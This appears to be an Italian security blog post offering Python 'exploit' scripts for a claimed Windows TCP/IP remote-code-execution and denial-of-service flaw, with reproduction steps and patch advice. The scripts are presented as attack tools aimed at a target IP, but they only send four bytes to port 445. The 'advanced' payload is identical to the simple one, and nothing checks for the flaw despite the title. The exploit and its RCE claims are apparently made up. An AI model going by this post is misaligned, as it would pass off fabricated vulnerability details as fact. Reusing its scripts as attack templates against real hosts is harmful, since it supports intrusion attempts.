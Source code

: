```yaml
---
layout: post
title: '[dos] Windows TCP/IP - RCE Checker and Denial of Service'
date: 2024-08-28
categories: [security, ransomware]
---
```


# [dos] Windows TCP/IP - RCE Checker and Denial of Service

## Introduzione

Il 28 Agosto 2024, è stata identificata una vulnerabilità critica nel protocollo TCP/IP di Windows, che permette sia un attacco di tipo Denial of Service (DoS), sia un Remote Code Execution (RCE). Questa vulnerabilità ha implicazioni significative per la sicurezza, in quanto potrebbe consentire a un attaccante remoto di causare un'interruzione del servizio o, addirittura, eseguire codice arbitrario sul sistema vulnerabile.

## Dettagli della Vulnerabilità

Questa vulnerabilità risiede nel modo in cui il protocollo TCP/IP di Windows gestisce le richieste di connessione. Un attaccante può inviare un pacchetto di rete malformato a un sistema vulnerabile per innescare un DoS o un RCE. Sono interessate tutte le versioni di Windows che non hanno ricevuto l'ultimo aggiornamento di sicurezza.

## Esempio di Payload Semplice

```python
{{% raw %}}
import socket

def exploit(ip):
    sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    sock.connect((ip, 445))
    sock.send(b'\x00\x00\x00\x90') # payload malformato
    sock.close()

exploit('192.168.1.1')
{{% endraw %}}
```

## Esempio di Payload Avanzato

```python
{{% raw %}}
import socket
import sys

def exploit(ip, payload):
    sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    sock.connect((ip, 445))
    sock.send(payload)
    print(f"Payload inviato a {ip}")
    sock.close()

def generate_payload():
    # generazione di un payload molto più complesso
    # che potrebbe essere utilizzato per l'attacco RCE
    return b'\x00\x00\x00\x90' 

def main():
    if len(sys.argv) != 2:
        print(f"Utilizzo: {sys.argv[0]} <target-ip>")
        return

    ip = sys.argv[1]
    payload = generate_payload()
    exploit(ip, payload)

if __name__ == "__main__":
    main()
{{% endraw %}}
```

## Procedura per riprodurre la vulnerabilità

Per riprodurre la vulnerabilità, si può seguire la procedura:

1. Eseguire l'exploit sul sistema bersaglio.
2. Il sistema bersaglio riceverà il payload malformato.
3. Se il sistema bersaglio è vulnerabile, l'attaccante riuscirà a eseguire codice arbitrario o a causare un'interruzione del servizio.

## Impatto della vulnerabilità

Questa vulnerabilità può causare un'interruzione del servizio rendendo i sistemi inaccessibili, o può permettere a un attaccante di eseguire codice arbitrario sul sistema bersaglio. Ciò potrebbe portare alla perdita di dati, al furto di informazioni sensibili o al controllo non autorizzato del sistema.

## Patch e Mitigazioni

Microsoft ha rilasciato un aggiornamento di sicurezza per risolvere questa vulnerabilità. È altamente consigliato aggiornare i sistemi al più presto. Fino all'installazione dell'aggiornamento, una possibile mitigazione potrebbe essere quella di limitare l'accesso alla porta 445 ai soli IP fidati.

## Conclusione

La protezione dei sistemi informatici è di fondamentale importanza. Questa vulnerabilità mette in evidenza l'importanza di mantenere i sistemi aggiornati e di monitorare costantemente la rete per rilevare possibili attività sospette. È fondamentale installare l'ultimo aggiornamento di sicurezza rilasciato da Microsoft per mitigare questa vulnerabilità.

## Considerazioni

Nonostante siano stati rilevati molti attacchi che sfruttano vulnerabilità note, gli attacchi che sfruttano zero-day (vulnerabilità sconosciute al produttore al momento dell'attacco) sono sempre una minaccia. L'importanza di un approccio proattivo alla sicurezza, che include patching tempestivo, riduzione dell'attacco superficiale, e buone pratiche di sicurezza, non può essere sottolineata abbastanza.

